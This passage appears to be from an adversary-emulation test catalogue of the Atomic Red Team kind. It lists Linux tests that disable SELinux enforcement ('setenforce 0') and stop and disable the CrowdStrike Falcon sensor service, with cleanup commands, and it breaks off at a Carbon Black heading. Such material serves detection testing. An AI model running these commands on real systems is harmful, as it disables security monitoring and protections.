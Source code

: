 




<br/>
<br/>

## Atomic Test #3 - Disable SELinux
Disables SELinux enforcement

**Supported Platforms:** Linux





#### Attack Commands: Run with `sh`! 


```sh
setenforce 0
```






<br/>
<br/>

## Atomic Test #4 - Stop Crowdstrike Falcon on Linux
Stop and disable Crowdstrike Falcon on Linux

**Supported Platforms:** Linux





#### Attack Commands: Run with `sh`!  Elevation Required (e.g. root or admin) 


```sh
sudo systemctl stop falcon-sensor.service
sudo systemctl disable falcon-sensor.service
```

#### Cleanup Commands:
```sh
sudo systemctl enable falcon-sensor.service
sudo systemctl start falcon-sensor.service
```





<br/>
<br/>

## Atomic Test #5 - Disable Carbon Black Response
Disables Carbon Black Response
